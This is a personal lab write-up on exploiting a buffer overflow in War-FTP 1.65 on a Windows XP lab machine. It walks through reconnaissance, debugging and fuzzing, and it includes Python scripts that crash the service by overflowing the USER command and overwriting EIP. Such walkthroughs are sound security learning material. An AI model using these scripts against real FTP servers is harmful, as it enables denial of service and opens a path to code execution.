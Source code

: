 # Lab Machine Write up and Notes 

## Resources: 

Original Exploit: https://www.exploit-db.com/exploits/3570


### Nmap of the XP Machine

<img src="/images/nmap-xp-machine-tcp.png" >

A quick Nmap scan of the target machines reveals TCP port 21 open. I also outputted to all formats 
so I can import it into searchsploit to see if it catches some stuff. 

###  SearchSploit Results

I imported the Nmap scan like so: 

``
searchsploit --nmap xp-machine-tcp.xml 
``

But output was too verbose so I did not put it here and instead re-ran the command manually 

<img src="/images/searchsploit-1.png" >


###  Metasploit Console Exploit

<img src="/images/msfconsole.png" >

As you can see, the exploit did not work ( This is because it just crashed the application so, we are going to remake this manually )


### I Attached The Program to Immunity Debugger 

<img src="/images/immunity-ftp.png" width=812px height=474px>


### Vulnerability Discovery Inside The Application 

## Manual 

#### Python One Liner To Find Crashing Point Manually

This prints 1,000 As for ease of access 

<img src="/images/python-oneliner.png">

#### In the case of trying this directly through a FTP Client on a modern Distrobution the Client will stop you from sending the max buffer 

<img src="/images/failed-exploit.png">

#### So we are going to try with NetCat and See if that works better 

<img src="/images/crash-succeeded.png">

#### As you can see we crashed the program ( I did have to enter a pass before it crashed ) and to confirm the crash opened our debugger 

<img src="/images/immunity-crash.png" width=812px height=474px>

#### YAAAY we have control over the EIP and have written over it with our A's 

<img src="/images/immunity-EIP.png">

#### I have created an Exploit that will crash the server! 

This is a skeleton exploit we will add on more stuff as we find it

```python3
#!/usr/bin/python3

## War-FTP 1.65 Exploit

import socket
from urllib import response 

# define the variables to be sent to the server
ip = '192.168.164.170'
port = 21
buffer = b"A" * 510
payload = ""

# create the socket to connect to the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((ip, port))
# because there is a banner we wanna print it out 
response = s.recv(1024)
print(response)

# sending the exploit 
s.send(b"USER " + buffer + b"\r\n")
response = s.recv(1024)
print(response)

# because you have to enter the pass as well 
s.send(b"PASS PARROTASSASSIN15\r\n")
s.close()

```

## Automation 

#### We need to find the exact crash point so we make a fuzzing script to narrow it down after manual or automate it from the begining 


```python3
#!/usr/bin/python3

import socket
from time import sleep
from urllib import response 

buffer = b"B" * 10
x = 0

while True: 
    buff = (b"A" * x ) + buffer
    print("Fuzzing " + str(len(buff)))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(('192.168.164.170', 21))
    response = s.recv(1024)
    print(response)
    s.send(b"USER " + buff + b"\r\n")
    response = s.recv(1024)
    s.send(b"PASS PARROTASSASSIN15\r\n")
    s.close
    x = x + 100
    sleep(2)
```

#### We find that it crashes at 510 as the server no longer responds after 

<img src="/images/python3-crash.png">
